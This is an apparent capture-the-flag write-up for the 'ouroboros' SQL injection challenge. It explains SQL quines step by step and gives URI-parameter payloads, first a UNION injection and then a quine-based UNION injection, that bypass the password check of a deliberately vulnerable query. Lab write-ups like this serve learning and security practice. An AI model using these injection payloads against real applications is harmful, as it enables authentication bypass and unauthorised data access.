 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 29
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/1484f622-d41c-4263-9655-405d71ed15d5)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='{$_GET[pw]}'
```

If `$result['pw']` is equal `$_GET['pw']`, the challenge is solved.

If we provide the following URI parameter:

```
?pw=' UNION SELECT 1 -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT 1 -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/33c02c9b-464c-4920-b0aa-4d463a1bc01c)

In this case the `$result['pw']` and `$_GET['pw']` differ as follows:

```
$result['pw']: 1
$_GET['pw']: ' UNION SELECT 1 -- -
```

In order to make them the same, we have to use a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)) program.

&nbsp;

## Quine

An example of a SQL Quine is:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine',
Char(34),Char(39)),Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine')
AS Quine 
```
### Initial string

```sql
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine'
```
### First replacement

```sql
-- - SELECT Replace( -- -
Replace( 
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine', 
Char(34), 
Char(39)
)
-- - ,CHAR(36),"$") AS Quine', Char(34), Char(39)), Char(36), 'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine -- -
```

Replace all occurrences of `CHAR(34)` (double quote `"` character) with `CHAR(39)` (single quote `'` character):

```sql
-- - SELECT Replace( -- -
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine'
-- - ,Char(36),"$") AS Quine', Char(34), Char(39)), Char(36), 'SELECT REPLACE(REPLACE("$",Char(34),Char(39)),Char(36),"$") AS Quine') AS Quine -- -
```
### Second replacement

```sql
-- - SELECT -- -
Replace(
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine', 
Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine'
)
-- - AS Quine -- -
```

Replace all occurrences of `CHAR(36)` (dollar sign `$` character) with the original string:

```sql
-- - SELECT -- -
'SELECT Replace(Replace('SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine', CHAR(34),CHAR(39)),CHAR(36), 'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine'
-- - AS Quine -- -
```
### Putting it All Together

The final result of the query is the string after both replacements, as follows:

```sql
SELECT Replace(Replace('SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine', CHAR(34), CHAR(39)), CHAR(36), 'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
SELECT Replace(Replace('SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine', CHAR(34), CHAR(39)), CHAR(36), 'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine
```

Thus, we can see how the query repeats itself.

&nbsp;

Now, we have to implement this for the challenge.
We will have to modify this Quine to the following:

```sql
UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

If we provide the following URI parameter:

```
?pw=' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/2022ca1c-e568-4989-aa51-186eaacd6810)
